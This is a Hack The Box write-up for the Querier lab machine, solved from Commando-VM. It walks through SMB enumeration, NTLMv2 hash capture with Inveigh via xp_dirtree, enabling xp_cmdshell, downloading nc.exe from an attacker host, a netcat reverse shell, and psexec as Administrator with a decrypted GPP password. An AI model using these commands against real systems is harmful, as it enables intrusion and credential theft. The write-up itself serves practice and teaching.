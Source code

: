 ```yaml
---
layout: post
title: Hack The Box - Querier (Commando)
categories: hack-the-box
tags: [windows, rce, smb]
description: Second post of solving Querier from Hack The Box - with Commando-VM.
image: /hackthebox/querier-2/0.png
---
```


<hr>
## Quick Summary
<br> Hey guys this is the second post for Querier, you can read the first post [here](/hack-the-box/querier). In the first post I solved it with kali, In this post I will solve it with commando vm. Querier's ip is `10.10.10.125` I added it to `C:\Windows\System32\drivers\etc\hosts` as `querier.htb`. Let's jump right in !
![](/images/hackthebox/querier-2/0.png)
<hr>
## Nmap
<br> As always we will start with `nmap` to scan for open ports and services :
`nmap -sV -sT -sC querier.htb`
![](/images/hackthebox/querier-2/1.png)
<br> We got `smb` and `mssql` server on port 1433. We don't have credentials for `mssql` so let's check `smb`.
<br>
<hr>
## Smb
<br> We need to list the shares, We can do that using `net view` :
`net view querier.htb`
![](/images/hackthebox/querier-2/2.png)
<br> It only showed us `Reports` because it's the only share that we can access anonymously which is nice. 
<br> We can mount the share from `cmd` with `net use` :
`net use Z: \\querier.htb\Reports /persistent:yes`
![](/images/hackthebox/querier-2/3.png)
<br>
<br>
![](/images/hackthebox/querier-2/4.png)
<br> We can also do it from the file explorer :
![](/images/hackthebox/querier-2/5.png)
<br>
<br>
![](/images/hackthebox/querier-2/6.png)
<hr>
## MSSQL
<br> I used `olevba` to get credentials from the excel file like I did in the [first post](/hack-the-box/querier/) :
![](/images/hackthebox/querier-2/7.png)
<br> To connect to the `mssql` server I will use [HeidiSQL](https://www.heidisql.com/) :
![](/images/hackthebox/querier-2/8.png)
<br> However, authentication failed :
![](/images/hackthebox/querier-2/9.png)
<br> I tried windows authentication :
![](/images/hackthebox/querier-2/10.png)
<br> But it also failed because it was trying as guest not reporting :
![](/images/hackthebox/querier-2/11.png)
<br> To solve this we can use `runas` to run `heidi` as reporting :
`runas /netonly /user:QUERIER\reporting cmd.exe`
![](/images/hackthebox/querier-2/12.png)
<br> From the new `cmd` session I ran `heidi` :
![](/images/hackthebox/querier-2/13.png)
<br> Now windows authentication worked :
![](/images/hackthebox/querier-2/14.png)
<br> Got permission denied for `xp_cmdshell` :
![](/images/hackthebox/querier-2/15.png)
<br> We can run a fake `smb` server to capture credentials using a tool called `Inveigh` which works like responder. From `powershell` I imported `Inveigh` (`Import-Module C:\Tools\Inveigh\Inveigh.ps1`). Then I disabled the firewall (`netsh advfirewall set allprofiles state off`) and invoked `Inveigh` (`Invoke-Inveigh -IP 10.10.xx.xx -ConsoleOutput Y`). 
<br> From `Heidi` I used `xp_dirtree` :
`EXEC MASTER.sys.xp_dirtree '\\10.10.xx.xx\fakeshare'`
![](/images/hackthebox/querier-2/16.png)
<br> `Inveigh` captured the `NTLMv2` hash for `mssql-svc` :
![](/images/hackthebox/querier-2/17.png)
<br> After cracking the hash on another box the password is `corporate568`. Now we can use `runas` to run `Heidi` as `mssql-svc` :
`runas /netonly /user:QUERIER\mssql-svc "C:\Program Files\HeidiSQL\heidisql.exe"`
![](/images/hackthebox/querier-2/18.png)
<br> Queries to enable `xp_cmdshell` :
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
![](/images/hackthebox/querier-2/19.png)
<br>
<br>
![](/images/hackthebox/querier-2/20.png)
<br> Great, we got `RCE`. I ran a python server to host `nc.exe` then I downloaded it on the box and got a reverse shell :
```
EXEC xp_cmdshell 'powershell Invoke-WebRequest -o C:\Users\mssql-svc\Desktop\nc.exe http://10.10.xx.xx/nc.exe';
EXEC xp_cmdshell 'C:\Users\mssql-svc\Desktop\nc.exe -e cmd.exe 10.10.xx.xx 1337'
```
![](/images/hackthebox/querier-2/21.png)
<br>
<br>
![](/images/hackthebox/querier-2/22.png)
<br> We owned user.
<br>
<hr>
## GPP, Privilege Escalation, Root Flag
<br> As I said in the [first post](/hack-the-box/querier/), when I checked group policy passwords I found Administrator's password. There are privilege escalation enumeration scripts for Windows like `LinEnum.sh` for Linux one of them is [`powerup.ps1`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) and it checks for group policy passwords. Let's check that one :
![](/images/hackthebox/querier-2/23.png)
<br>
<br>
![](/images/hackthebox/querier-2/24.png)
<br>
<br>
![](/images/hackthebox/querier-2/25.png)
<br> It also decrypts the password which is nice. Password : `MyUnclesAreMarioAndLuigi!!1!`
<br> Now we can use `psexec` to get a shell as Administrator. I used `runas` to start `cmd` as `QUERIER\Administrator` then I used `psexec` :
`runas /netonly /user:QUERIER\Administrator cmd.exe`
<br>
<br>
`psexec \\querier.htb cmd`
![](/images/hackthebox/querier-2/26.png)
<br> And we owned root !
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br>
<br>
<br> First write-up : [Hack The Box - Querier](/hack-the-box/querier)
<br> Previous Hack The Box write-up : [Hack The Box - Flujab](/hack-the-box/flujab/)
<br> Next Hack The Box write-up : [Hack The Box - Netmon](/hack-the-box/netmon/)
<hr>
